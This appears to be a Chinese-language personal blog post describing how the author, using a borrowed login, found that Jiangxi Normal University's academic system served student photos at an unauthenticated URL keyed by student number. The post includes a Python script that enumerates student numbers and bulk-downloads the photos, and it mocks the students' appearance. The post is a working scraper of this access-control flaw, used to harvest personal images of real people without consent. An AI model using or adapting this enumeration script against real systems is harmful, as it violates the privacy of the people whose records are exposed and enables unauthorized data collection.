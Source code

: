 ```yaml
---
layout: post
title: 江西师范大学学生照片
tag: codes
---
```


国庆第二天,来更新Blog.
暑假在研究各个学校的教务处系统,略有发现.
师范大学教务处系统设置的略奇怪.
学生登录后,能查询到全校任何一个在读学生的信息,真是哔了狗.
查询学生信息是得在学生登录之后才能查询的,借了一个帐号,翻了翻.发现某个独特的url: 'http://jwc.jxnu.edu.cn/StudentPhoto/'+num+'.jpg'  其中的num就是学生的学号,而且,这个url可以直接访问,有的玩了.遍历全校学生学号,down下图片.

<img src='/images/photo.png' />

某人照片...

这种类似与爬虫的工作当然得拿出python咯.


{% highlight python %}
 #!/usr/bin/env python
 # coding:utf-8
 import requests
 fname ='existNo12.txt'
 fobj = open(fname,'r')
 stu_no=fobj.readline()
 while stu_no:
 	stu_no = stu_no.rstrip()
	num = stu_no
	base_url = 'http://jwc.jxnu.edu.cn/StudentPhoto/'+num+'.jpg'
	r = requests.get(url = base_url)
	for i in range(100):
		 if r.status_code == 200 :
		 	pic = open(num+'.jpg','wb')
			pic.write(r.content)
			print num,'download!'
			num = str(int(num)+1)
			base_url = 'http://jwc.jxnu.edu.cn/StudentPhoto/'+num+'.jpg'
			r = requests.get(url = base_url)
	stu_no = fobj.readline()
{% endhighlight %}

并没有用上多线程的技术,爬起来有点慢.事先遍历到了学号,这里不得不喷一下师大了,学号毫无规律可言.
最后不要问我结果怎么样了.

<img src='/images/photo1.png' />

素颜照真吓人.
